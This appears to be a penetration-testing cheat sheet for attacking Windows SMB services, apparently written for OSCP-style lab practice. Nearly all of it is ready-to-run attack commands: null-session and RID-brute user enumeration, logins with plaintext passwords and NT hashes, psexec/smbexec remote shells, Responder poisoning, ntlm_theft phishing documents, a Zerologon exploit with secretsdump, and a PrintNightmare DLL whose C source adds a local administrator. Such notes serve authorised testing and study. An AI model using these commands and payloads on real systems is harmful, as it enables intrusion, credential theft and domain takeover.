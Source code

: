 ### General Enumeration
```
enum4linux -a -v 192.168.211.13
enum4linux -a -v -u '' -p '' ip 
nmap --script "smb-vuln*" -p 139,445 ip
```
![image](https://github.com/user-attachments/assets/fbb53200-b7f1-489d-a5fa-80a576a8e1ab)
### User Enumeration
```
nxc smb 10.10.11.108 -u '' -p '' --rid-brute
impacket-samrdump domain/user:pass@
```
SMB NULL Session to Pull User List
```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
### SMB Common Credentials
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0375631b-bc54-4127-b160-d04df1a8538a)

### smb list shares and share permissions
```
smbmap -H 192.168.238.220 -d skylark.com -u backup_service -p It4Server
smbclient -L 192.168.188.222 -U skylark.com/Administrator%MusingExtraCounty98
nxc smb ip -u username -p pwd --shares
```
smb list share with guest account
```
smbmap -H 192.168.200.172 -u guest -p ''
smbmap -H 192.168.200.172 -u guest
smbmap -H 192.168.200.172 -u nobody -p ''
```
smb list shares anonymously
```
smbclient -L //ip | smbclient -L //ip -N 
smbmap -H ip -u anonymous | smbmap -H ip -u anonymous -p ''
nxc smb 10.10.150.236 -u anonymous -p '' --shares
```
### smb connect to share
```
smbclient //172.16.196.13/IPC$(sharename) -U domain/offsec%lab -port
smbclient //192.168.188.222/IPC$ -U skylark.com/Administrator%MusingExtraCounty98
smbclient //10.10.10.192/admin$ -U 'svc_backup' --pw-nt-hash 9658d1d1dcd9250115e2205d9f48400d
```
smb connect share with guest account
```
smbclient //192.168.200.172/DocumentsShare -U vault.offsec/guest
```
smb connect share anonymously
```
smbclient //ip/share
```
### smb download
```
Download directory:
kali: smbget -R smb://192.168.236.249/C$/staging/.git -U relia.com/damon%pass
kali: pth-smbget --dots --recursive -U oscp.exam/web_svc%Diamond1 smb://10.10.77.152/SYSVOL/oscp.exam/scripts

smbclient
1. smbclient //10.10.77.152/SYSVOL -U oscp.exam/web_svc%Diamond1
2. cd to the path where shows the directory that you wanna download
3. prompt off
4. recurse ON
5. mget *
6. type y to all prompts
```
### smb mount
```
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
```
### smb commands
```
get file
put file
pwd
ls
```

### SMB shell 
Require writable Admin share and C share  
Require administrators local group  
Require file and printer Sharing  
Tool: psexec.py  
Shell Type: Interactive Shell  
Required Ports: 445 or SMB  
The typical tool to take advantage of this open port is psexec. But this is a very noisy method. Even though AV evasion is not something to worry about in PEN200 (it is on PEN300) But I still want to point it out. Default Windows AV caught this during my tests. Even though I turned it off for all these demonstrations
```
crackmapexec smb 10.10.139.11 -u backup_service -p It4Server --shares(check if credential has admin right)
kali: impacket-psexec backup_service:It4Server@10.10.139.11
kali: impacket-psexec tom_admin@10.10.118.152 -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc
kali: impacket-smbexec timelapse.htb/administrator:'%A2Aj3d9h3%x-]BXE.gI+l6D'@10.10.11.152
```
### Windows built-in command to list smb shares and map smb share to drive
```
net view \\10.191.21.18
net use F: \\10.191.21.18\testshare
net use S: "\\10.191.21.18\GSP Shared Folder"
```
### Netlogon Share
> Active Directory logon scripts are saved in the NETLOGON share by default

![image](https://github.com/user-attachments/assets/4cfcce22-9f4d-4437-bafd-5d41cda7b208)

### LLMNR/NBT-NS Poisoning through SMB
>OSCP exam only allow Analyze mode by -Av
```
Listener:
sudo responder -I tun0 -v
impacket-smbserver xingdi Desktop -smb2support

Access:
\\IPv4 address\test || //ip/test
```
###### NTLM_THEFT (https://github.com/Greenwolf/ntlm_theft/tree/master):
ntlm_theft is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.
```
Browse to Folder Containing
.url – via URL field
.url – via ICONFILE field
.lnk - via icon_location field
.scf – via ICONFILE field (Not Working on Latest Windows)
autorun.inf via OPEN field (Not Working on Latest Windows)
desktop.ini - via IconResource field (Not Working on Latest Windows)

Open Document
.xml – via Microsoft Word external stylesheet
.xml – via Microsoft Word includepicture field
.htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
.docx – via Microsoft Word includepicture field
.docx – via Microsoft Word external template
.docx – via Microsoft Word frameset webSettings
.xlsx - via Microsoft Excel external cell
.wax - via Windows Media Player playlist (Better, primary open)
.asx – via Windows Media Player playlist (Better, primary open)
.m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
.jnlp – via Java external jar
.application – via any Browser (Must be served via a browser downloaded or won’t run)

python3 ntlm_theft.py -g all -s 192.168.45.172(The IP address of your SMB hash capture server) -f contracts
```
### Zerologon CVE-2020-1472
```
Detect:
nxc smb ip -u username -p pass -M zerologon

Exploit:
python3 cve-2020-1472-exploit.py Monteverde(dc-name) 10.10.10.172(dc-ip)
impacket-secretsdump 'megabank.local'/'Monteverde$'@10.10.10.172 -just-dc -no-pass 
```
### Printnightmare CVE-2021-1675 CVE-2021-34527
```
impacket-smbserver test . -smb2support

#include <stdlib.h>
#include <windows.h> //appened code
//name:myDLL.cpp

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add"); //appened code
  	    i = system ("net localgroup administrators dave2 /add"); //appened code
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}


 x86_64-w64-mingw32-gcc adduser.cpp --shared -o adduser.dll

python3 printnightmare.py -dll '\\10.21.176.25\test\adduser.dll' 'svc-admin:management2005@10.10.211.60'
```
